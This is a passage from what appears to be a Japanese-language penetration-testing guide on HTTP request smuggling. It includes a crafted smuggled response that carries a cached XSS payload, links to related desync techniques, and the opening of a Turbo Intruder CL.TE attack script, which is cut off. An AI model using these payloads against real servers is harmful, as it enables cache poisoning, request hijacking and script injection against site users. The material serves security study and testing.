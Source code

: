 ```
Content-Type: text/html
Content-Length: 165

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 243

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok
Content-Type: text/html
Cache-Control: max-age=1000000
Content-Length: 50

<script>alert(“arbitrary response”)</script>
```
### HTTPリクエストスムーギングをHTTPレスポンスデシンクロナイゼーションで武器化する

HTTPリクエストスムーギングの脆弱性を見つけたが、どのように悪用するかわからない場合は、他の悪用方法を試してみてください。

{% content-ref url="../http-response-smuggling-desync.md" %}
[http-response-smuggling-desync.md](../http-response-smuggling-desync.md)
{% endcontent-ref %}

### その他のHTTPリクエストスムーギング技術

* ブラウザHTTPリクエストスムーギング（クライアントサイド）

{% content-ref url="browser-http-request-smuggling.md" %}
[browser-http-request-smuggling.md](browser-http-request-smuggling.md)
{% endcontent-ref %}

* HTTP/2ダウングレードにおけるリクエストスムーギング

{% content-ref url="request-smuggling-in-http-2-downgrades.md" %}
[request-smuggling-in-http-2-downgrades.md](request-smuggling-in-http-2-downgrades.md)
{% endcontent-ref %}

## ターボイントルーダースクリプト

### CL.TE

[https://hipotermia.pw/bb/http-desync-idor](https://hipotermia.pw/bb/http-desync-idor)から
```python
def queueRequests(target, wordlists):

engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar

0

```